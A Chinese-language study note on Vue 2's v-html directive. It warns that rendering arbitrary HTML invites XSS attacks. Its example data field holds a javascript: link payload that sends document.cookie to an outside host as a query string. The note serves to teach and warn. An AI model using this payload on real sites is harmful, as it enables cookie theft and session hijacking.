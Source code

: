 ```yaml
---
v-ontitle: Vue v-html
date: 2022-05-22 6:00:00
updated: 2022-05-22 6:00:00
categories:
        - 前端框架
tags:
        - Vue
        - 前端
        - Vue 2
        - 学习笔记

---
```


# v-html

设置元素的 innerHTML，会覆盖元素中的所有内容。但与`v-text`不同的是，它会识别 HTML 元素

## 安全性

在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 `XSS` 攻击。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上。

**HTML**

```HTMl
<div id="app">
    <div v-html="msg">原内容</div>
</div>
```

**JavaScrip**

```JavaScrip
var vm = new Vue({
	el: '#app',
	data: {
		msg: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>XXS 攻击</a> ',
	},
});

Vue.config.productionTip = false;

```


